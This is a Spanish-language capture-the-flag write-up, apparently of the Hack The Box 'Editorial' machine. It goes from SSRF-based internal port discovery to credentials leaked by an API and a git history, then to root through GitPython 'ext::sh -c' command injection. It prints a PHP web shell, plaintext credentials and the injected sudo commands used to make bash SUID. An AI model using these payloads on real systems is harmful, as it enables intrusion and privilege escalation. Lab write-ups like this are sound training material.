# Editorial

```bash
nmap -p- --open -sCV --min-rate=5000 -n 10.129.66.149 -oN nmapResult.txt
```



- Launchpad -> Jammy
- virtual hosting -> *editorial.htb*

- Encontramos otro posible dominio submissions@tiempoarriba.htb
- Nada interesante Gobuster
- Nada

- Vemos que el sitio está hecho con *Hugo* ->



Intentamos buscar un diccionario para descubrir directorios pero no encuentro un diccionario como tal en internet

- Vemos un formulario donde se pide al usuario subir un libro, incluyendo una url hacia la imagen de la portada del libro. Intentamos poner la url de un servidor levantado en nuestro kali haciendo solicitud a una imagen, pero no recibimos nada
```bash
python3 -m http.server
http://10.10.17.61/image.jpg
```

NO recibimos ninguna petición

- Interceptando con burp el comportamiento de la web descubrimos algo interesante, cuando enviamos/subimos el libro, en la solicitud post, no se envían ni la URL ni el documento del libro que nosotros subimos.
Sin embargo, en el botón de preview, vemos que sí que se envía tanto el archivo como el *bookurl*



Si interceptamos la respuesta vemos  un recurso:



Pero vemos que es el recurso que se muestra en el formulario de subida ->



- Subimos un archivo para ejecutar comandos por parámetro cmd
- Enviamos petición al repeater
- Obtenemos esta ruta



- Si accedemos a http://editorial.htb/static/uploads/bb261c35-ca91-4338-b03d-d3e1ea169cd8
Se nos descarga el archivo que acabamos de subir

- En principio NO podremos ejecutar comandos con este archivo

- -> Al subir un libro con el campo URL como la url hacia nuestro servidor http con python recibimos la petición
```bash
http://10.10.17.61/image.php
```



Podremos crear un archivo malicioso que resida en nuestra máquina expuesto en ese servidor web para que lo recupere el servidor y ejecute por ejemplo nuestro archivo *image.php* que está subido en la ruta anterior y cuyo código nos permite ejecutar una shell
```php
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
```

- NO se ejecuta nada, porque la url lo que hace es descargar el archivo en el navegador, no ejecuta ningún comando

- Probamos a enviar la url apuntando hacia el localhost del servidor, por ejemplo en el puerto 80 que sabemos que está abierto por nmap y la web. Así engañamos a la máquina haciéndola creer que la consulta proviene de algún servicio suyo levantado
http://127.0.0.1:80
- En principio nos devuelve el propio recurso de imagen default,

- Vamos a probar con el *Intruder* de BurpSuite a hacer un ataque de tipo *Sniper* para enumerar todos los puertos de la máquina (del 1 al 65535) y ver si en alguna de las respuestas cambia este recurso de portada default, que siempre devuelve el mismo
*unsplash_photo_1630734277837_ebe62757b6e0.jpeg*

- Ctrl+I -> enviar al intruder
1.  seleccionamos la parte de la petición donde va el puerto



2. seleccionamos un payload de tipo *Numbers* desde el 1 al 65535
3. en settings -> *grep - extract* para filtrar la respuesta -> Add -> seleccionamos la parte del recurso que se repite *unsplash_photo_1630734277837_ebe62757b6e0.jpeg*



De este modo cuando lancemos el ataque nos aparecerá en una columna el valor de este campo en la respuesta para cada iteración
4. Buscaremos una respuesta donde el recurso cambie

- Burp de NO pago va lentísimo, vamos a montar un script en python
Para debuggear ->



Tendremos que tener en cuenta que se envía un archivo y un campo normal, por lo que tendremos que dividir el data del post:



La petición para una url estática quedaría enviando 0 bytes con *b''*



Siendo *ssrf_url = http://editorial.htb/upload-cover*

- Para alinear el formato de salida:



- Para ejecutar el script y ver los resultados a la vez que se guarda en un archivo
```bash
python3 -u internalPortDiscovery.py | tee -a results.txt
```

Filtramos  las líneas del archivo para que sean diferentes al recurso default y le quitamos las líneas vacías con awk
```bash
cat results.txt | grep -v "/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg" | awk 'NF'
```



Vemos que para el puerto 5000 nos devuelve otro recurso, lo consultaremos a ver de qué se trata *static/uploads/dd5dd8e3-be78-4fc7-a810-576570142a49*

- Lanzamos la petición al puerto 5000 desde la web con la url http://127.0.0.1:5000
Interceptamos la respuesta con burpsuite y obtenemos un recurso descargado



static/uploads/cfe6ebe5-cf9f-40a9-990f-fe50bd8987ad

- Abrimos el recurso y vemos que es un json, lo abrimos con *jq*
```bash
cat cfe6ebe5-cf9f-40a9-990f-fe50bd8987ad | jq
```

Vemos que se trata de un json en el que aparecen los endpoints de una api, y la descripción de cada uno de ellos



- Vemos interesante el que dice *Retrieve the welcome message sended to our new authors*
Intentaremos descargarlo

- Vamos de nuevo a la web y escribimos la url completa en el campo de url, con burpsuite a la escucha, interceptamos la petición y la respuesta y obtendremos un nuevo archivo JSON, abriremos y filtraremos por el campo único que trae que es *template_mail_message*
```bash
cat apiContent | jq -r '.template_mail_message'
```

-r: raw output -> el . significa la raiz, y lo demás el nombre del campo





Vemos credenciales
**dev:dev080217_devAPI!@**

- Intentamos entrar por ssh
dev

## Escalada

- Sudoers nada
- SUID nada
- Capabilities nada
- Puertos abiertos
```bash
ss -nltp
```

vemos el 5000 de la API y ninguno más interesante
- Vemos un usario prod al que seguramente tendremos que acceder
En dev, vemos un archivo oculto *.git* -> intentaremos ver algo interesante
```bash
git log
```

-> vemos varios commits para el desarrollo de la API

Vemos uno en especial que dice que downgradean la información de PROD a DEV



```bash
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```

Vemos credenciales antiguas que parecen que apuntan a prod



**prod:080217_Producti0n_2023!@**
prod

```bash
sudo -l
```

*(root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *

Vemos que podemos ejecutar con el usuario prod el script en python *clone_prod_change.py* y cuyo propietario es root



_-> Cambio IP -> 10.129.67.114_
Lo que hace el script



- Vamos a inspeccionar la libreria git -> Repo, porque no es común
Encontramos una RCE https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
- Para versiones de *GitPython 3.1.29* o menores



- Buscamos la versión de la librería GitPython que hay instalada en la máquina con
```bash
pip freeze | grep -i gitpython
```



Vemos que es justo la versión última afectada, sospechoso

- Vemos que la estructura del PoC es muy muy similar a la del script con permisos de root, lo único que varía es la parte de *ext::sh -c touch% /tmp/pwned* que casualmente es la *url_to_clone* que nosotros introducimos por parámetros. Eso haremos
```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c touch% /tmp/pwned"
```

- Peta pero se nos crea un directorio pwned en /etc  con propietario y grupo root, por lo que estamos inyectando comandos como root (en este caso la creación de un archivo)



- Ahora lo que haremos será el mismo procedimiento pero diciendole que nos ejecute un archivo que nosotros creemos para cambiar el permiso de la bash a SUID
-
```bash
nano privesc
```



-
```bash
chmod 777 privesc
```

-> IMPORTANTE darle permisos de ejecución para que el script lo corra bien
-
```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c /tmp/privesc"
```

-> Ejecutamos el archivo malicioso con el RCE

- Le acabamos de cambiar los permisos a la bash



```bash
bash -p
```

root
